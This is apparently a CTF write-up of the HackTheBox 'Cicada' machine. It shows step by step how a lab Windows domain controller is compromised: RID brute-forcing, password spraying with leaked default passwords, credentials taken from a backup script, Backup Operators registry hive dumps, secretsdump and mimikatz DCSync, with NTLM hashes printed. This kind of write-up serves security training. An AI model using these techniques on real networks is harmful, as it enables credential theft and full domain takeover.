


+++
title = "0627-Cicada"
description = "222"
date = 2024-11-21

[taxonomies]
categories = ["HackTheBox", "Machines", "Linux", "Hard"]
tags = ["Rid", "SMB", "密码喷射", "信息泄露", "BackupOperators"]

[extra]
toc = true
+++

## Recon & Enum

```Shell
nmap -p- --min-rate 1000 -T4 -sC -sV -O -v cicada.htb
---
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-30 14:06:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
54750/tcp open  msrpc         Microsoft Windows RPC
```

```Shell
netexec smb cicada.htb -u guest -p '' --shares
---
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share

netexec smb cicada.htb -u guest -p '' --rid-brute 10000
---
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Shell as Emily.Oscars

```Shell
sudo mount -t cifs //cicada.htb/HR /mnt/smb -o username=guest
```

```Shell
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

```Shell
netexec smb cicada.htb -u res/user.list -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success               
---
...
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
...
```

```Shell
bloodhound-python -c All --zip -d cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -ns $IP
```



并没有发现什么特殊权限

```Shell
netexec ldap cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
---
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        [*] Enumerated 8 domain users: cicada.htb
LDAP        10.10.11.35     389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                 
LDAP        10.10.11.35     389    CICADA-DC        Administrator                 2024-08-26 20:08:03 3       Built-in account for administering the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        Guest                         2024-08-28 17:26:56 3       Built-in account for guest access to the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account       
LDAP        10.10.11.35     389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 3                                                     
LDAP        10.10.11.35     389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 3                                                     
LDAP        10.10.11.35     389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0                                                     
LDAP        10.10.11.35     389    CICADA-DC        david.orelious                2024-03-14 12:17:29 3       Just in case I forget my password is aRt$Lp#7t*VQ!3
LDAP        10.10.11.35     389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 3
```

发现第二个凭据 aRt$Lp#7t*VQ!3

```Shell
netexec smb cicada.htb -u res/user.list -p 'aRt$Lp#7t*VQ!3'
---
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
```

```Shell
netexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```


```Shell
sudo mount -t cifs //cicada.htb/DEV /mnt/smb -o username=david.orelious
---
Password for david.orelious@//cicada.htb/DEV:aRt$Lp#7t*VQ!3

ls /mnt/smb
---
Backup_script.ps1
```

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```



emily.oscars 用户在 Remote Management 组中，可以登录 WinRM

## Shell as Administrator

emily.oscars 用户在 BackupOperators 组中，因此可以备份 SAM 和 SYSTEM

```PowerShell
reg save hklm\sam sam
reg save hklm\system system
reg save hklm\security security
reg save hklm\ntds ntds
-+-
impacket-secretsdump -sam sam -system system local
---
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

## More and More

有了第一个凭据，查看各个用户信息的时候，这点有时候容易忘

### Dump Hash

```Plain Text
./mimikatz.exe "lsadump::dcsync /domain:cicada.htb /all /csv" "exit"
---
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:cicada.htb /all /csv
[DC] 'cicada.htb' will be the domain
[DC] 'CICADA-DC.cicada.htb' will be the DC server
[DC] Exporting domain 'cicada.htb'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[DC] ms-DS-ReplicationEpoch is: 1
502     krbtgt          3779000802a4bb402736bee52963f8ef        514
1104    john.smoulder   0d33a055d07e231ce088a91975f28dc4        66048
1105    sarah.dantelia  d1c88b5c2ecc0e2679000c5c73baea20        66048
1000    CICADA-DC$      188c2f3cb7592e18d1eae37991dee696        532480
500     Administrator   2b87e7c93a3e8a0ea4a581937016f341        66048
1106    michael.wrightson       b222964c9f247e6b225ce9e7c4276776        66048
1108    david.orelious  ef0bcbf3577b729dcfa6fbe1731d5a43        66048
1601    emily.oscars    559048ab2d168a4edf8e033d43165ee5        66048
```

